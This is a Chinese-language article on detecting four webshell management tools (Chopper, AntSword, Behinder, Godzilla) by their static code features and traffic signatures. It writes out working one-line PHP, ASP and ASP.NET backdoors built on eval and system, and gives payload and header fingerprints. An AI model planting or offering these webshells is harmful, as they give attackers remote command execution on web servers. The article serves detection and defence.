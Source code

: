 ## 前言

在工作中经常会遇到各种websehll，黑客通常要通过各种方式获取 webshell，从而获得企业网站的控制权，识别出webshell文件或通信流量可以有效地阻止黑客进一步的攻击行为，下面以常见的四款webshell进行分析，对工具连接流量有个基本认识。

## **Webshell****简介**

webshell就是以[asp](https://baike.baidu.com/item/asp/128906)、[php](https://baike.baidu.com/item/php/9337)、jsp或者cgi等[网页](https://baike.baidu.com/item/%E7%BD%91%E9%A1%B5/99347)文件形式存在的一种代码执行环境，主要用于网站管理、服务器管理、权限管理等操作。使用方法简单，只需上传一个代码文件，通过网址访问，便可进行很多日常操作，极大地方便了使用者对网站和服务器的管理。正因如此，也有小部分人将代码修改后当作后门程序使用，以达到控制网站服务器的目的，**也可以将其称做为一种网页后门**

**最普通的一句话木马：**

<?php   @eval($_POST['shell']);?>

<?php system($_REQUEST['cmd']);>

![1647168572_622dcc3c8e5be2bdf77ed.png!small?1647168572799](https://image.3001.net/images/20220313/1647168572_622dcc3c8e5be2bdf77ed.png!small?1647168572799)

## 中国菜刀

中国菜刀（Chopper）是一款经典的网站管理工具，具有文件管理、数据库管理、虚拟终端等功能。

它的流量特征十分明显，现如今的安全设备基本上都可以识别到菜刀的流量。现在的菜刀基本都是在安全教学中使用。

github项目地址：[https://github.com/raddyfiy/caidao-official-version](https://github.com/raddyfiy/caidao-official-version)  

由于菜刀官方网站已关闭，现存的可能存在后门最好在虚拟机运行，上面项目已经进行了md5对比没有问题。

![1647168736_622dcce0ee65235dabe4e.png!small?1647168737325](https://image.3001.net/images/20220313/1647168736_622dcce0ee65235dabe4e.png!small?1647168737325)

### 菜刀webshell的静态特征

菜刀使用的webshell为一句话木马，特征十分明显

常见一句话(Eval)：

PHP, ASP, ASP.NET 的网站都可以：

> PHP:    <?php @eval($_POST['caidao']);?>
> 
> ASP:    <%eval request("caidao")%>
> 
> ASP.NET:    <%@ Page Language="Jscript"%><%eval(Request.Item["caidao"],"unsafe");%>

### 菜刀webshell的动态特征

请求包中：

ua头为百度爬虫

请求体中存在eavl，base64等特征字符

请求体中传递的payload为base64编码，并且存在固定的QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO307ZWNobygiWEBZIik7J

请求体中执行结果响应为明文，格式为[X@Y    结果](mailto:%E5%B9%B6%E4%B8%94%E5%9C%A8X@Y./)   X@Y之中

![1647169656_622dd0781bd3f5e0ae199.png!small?1647169656466](https://image.3001.net/images/20220313/1647169656_622dd0781bd3f5e0ae199.png!small?1647169656466)

![1647169701_622dd0a59303415942bb8.png!small?1647169701877](https://image.3001.net/images/20220313/1647169701_622dd0a59303415942bb8.png!small?1647169701877)

## **蚁剑**

AntSword（蚁剑）是一个开放源代码，跨平台的网站管理工具，旨在满足渗透测试人员以及具有权限和/或授权的安全研究人员以及网站管理员的需求。

github项目地址： [https://github.com/AntSwordProject/antSword](https://github.com/AntSwordProject/antSword)  

![1647169735_622dd0c79624d24331faf.png!small?1647169735843](https://image.3001.net/images/20220313/1647169735_622dd0c79624d24331faf.png!small?1647169735843)

### 蚁剑webshell静态特征

[https://github.com/AntSwordProject/AwesomeScript](https://github.com/AntSwordProject/AwesomeScript)蚁剑官方为我们提供了制作好的后门，官方的脚本均做了不同程度“变异”，蚁剑的核心代码是由菜刀修改而来的，所有普通的一句话木马也可以使用。

Php中使用assert，eval执行, asp 使用eval ，在jsp使用的是Java类加载（ClassLoader）,同时会带有base64编码解码等字符特征

![1647170192_622dd290d6a8ca1ba57bf.png!small?1647170193460](https://image.3001.net/images/20220313/1647170192_622dd290d6a8ca1ba57bf.png!small?1647170193460)

### 蚁剑webshell动态特征

**默认编码连接时**

这里我们直接使用菜刀的一句话webshell

每个请求体都存在@ini_set(“display_errors”, “0”);@set_time_limit(0)开头。并且存在base64等字符

响应包的结果返回格式为  随机数 结果  随机数

![1647170363_622dd33b14182b1081659.png!small?1647170363388](https://image.3001.net/images/20220313/1647170363_622dd33b14182b1081659.png!small?1647170363388)

**使用base64编码器和解码器时**

![1647170543_622dd3efd9afd3e6d3ee7.png!small?1647170544145](https://image.3001.net/images/20220313/1647170543_622dd3efd9afd3e6d3ee7.png!small?1647170544145)

蚁剑会随机生成一个参数传入base64编码后的代码，密码参数的值是通过POST获取随机参数的值然后进行base64解码后使用eval执行

响应包的结果返回格式为  随机数 编码后的结果  随机数

![1647170560_622dd400c8203be11f45c.png!small?1647170561263](https://image.3001.net/images/20220313/1647170560_622dd400c8203be11f45c.png!small?1647170561263)

![1647170574_622dd40e76d5fd70dd9c2.png!small?1647170574792](https://image.3001.net/images/20220313/1647170574_622dd40e76d5fd70dd9c2.png!small?1647170574792)

## **冰蝎**

冰蝎是一款动态二进制加密网站管理客户端。

github地址：https://github.com/rebeyond/Behinder

![1647170705_622dd49185e0ab8d4cfd1.png!small?1647170705765](https://image.3001.net/images/20220313/1647170705_622dd49185e0ab8d4cfd1.png!small?1647170705765)

冰蝎文件夹中，server 文件中存放了各种类型的木马文件

![1647170725_622dd4a54fb0c5bfa44c6.png!small?1647170725592](https://image.3001.net/images/20220313/1647170725_622dd4a54fb0c5bfa44c6.png!small?1647170725592)

### 冰蝎webshell木马静态特征

这里主要分析3.0版本的

采用采用预共享密钥，密钥格式为md5(“admin”)[0:16], 所以在各种语言的webshell中都会存在16位数的连接密码，默认变量为k。

在PHP中会判断是否开启openssl采用不同的加密算法，在代码中同样会存在eval或assert等字符特征

![1647171068_622dd5fc62003abea147f.png!small?1647171068688](https://image.3001.net/images/20220313/1647171068_622dd5fc62003abea147f.png!small?1647171068688)

在aps中会在for循环进行一段异或处理

![1647170766_622dd4ce52c0785e2eaa2.png!small?1647170766623](https://image.3001.net/images/20220313/1647170766_622dd4ce52c0785e2eaa2.png!small?1647170766623)

在jsp中则利用java的反射，所以会存在ClassLoader，getClass().getClassLoader()等字符特征

![1647170932_622dd574b367b573c99bf.png!small?1647170933096](https://image.3001.net/images/20220313/1647170932_622dd574b367b573c99bf.png!small?1647170933096)

### 冰蝎2.0 webshell木马动态特征

在了解冰蝎3.0之前，先看看2.0是怎么交互等

2.0中采用协商密钥机制。第一阶段请求中返回包状态码为200，返回内容必定是16位的密钥

Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2![1647171493_622dd7a52508b5654fbf4.png!small?1647171493436](https://image.3001.net/images/20220313/1647171493_622dd7a52508b5654fbf4.png!small?1647171493436)

建立连接后 所有请求 Cookie的格式都为: Cookie: PHPSESSID=; path=/；

![1647171672_622dd858ad7a9cc4904db.png!small?1647171673147](https://image.3001.net/images/20220313/1647171672_622dd858ad7a9cc4904db.png!small?1647171673147)

### 冰蝎3.0 webshell木马动态特征

在3.0中改了，去除了动态密钥协商机制，采用预共享密钥，全程无明文交互，密钥格式为md5(“admin”)[0:16],但还是会存在一些特征

在使用命令执行功能时，请求包中content-length 为5740或5720（可能会根据Java版本而改变）

每一个请求头中存在Pragma: no-cache，Cache-Control: no-cache

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

![1647171814_622dd8e64e59b47c2e210.png!small?1647171814762](https://image.3001.net/images/20220313/1647171814_622dd8e64e59b47c2e210.png!small?1647171814762)

## **哥斯拉**

哥斯拉继菜刀、蚁剑、冰蝎之后具有更多优点的Webshell管理工具

[github地址：https://github.com/BeichenDream/Godzilla](https://github.com/BeichenDream/Godzilla)  

![1647171870_622dd91e7df2a0e35e913.png!small?1647171870876](https://image.3001.net/images/20220313/1647171870_622dd91e7df2a0e35e913.png!small?1647171870876)

哥斯拉的webshell需要动态生成，可以根据需求选择各种不同的加密方式

![1647171893_622dd935168bb389388b1.png!small?1647171893715](https://image.3001.net/images/20220313/1647171893_622dd935168bb389388b1.png!small?1647171893715)

### 哥斯拉webshell木马静态特征

选择默认脚本编码生成的情况下，jsp会出现xc,pass字符和Java反射（ClassLoader，getClass().getClassLoader()），base64加解码等特征

![1647171938_622dd962545b9fe2b3ffb.png!small?1647171938717](https://image.3001.net/images/20220313/1647171938_622dd962545b9fe2b3ffb.png!small?1647171938717)

php，asp则为普通的一句话木马

![1647171992_622dd9982fef522992b58.png!small?1647171992556](https://image.3001.net/images/20220313/1647171992_622dd9982fef522992b58.png!small?1647171992556)

### 哥斯拉webshell动态特征

所有请求中Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

所有响应中Cache-Control: no-store, no-cache, must-revalidate,

以上两个只能作为弱特征参考

同时在所有请求中Cookie中后面都存在；特征

![1647172209_622dda71557088a32cbf4.png!small?1647172209728](https://image.3001.net/images/20220313/1647172209_622dda71557088a32cbf4.png!small?1647172209728)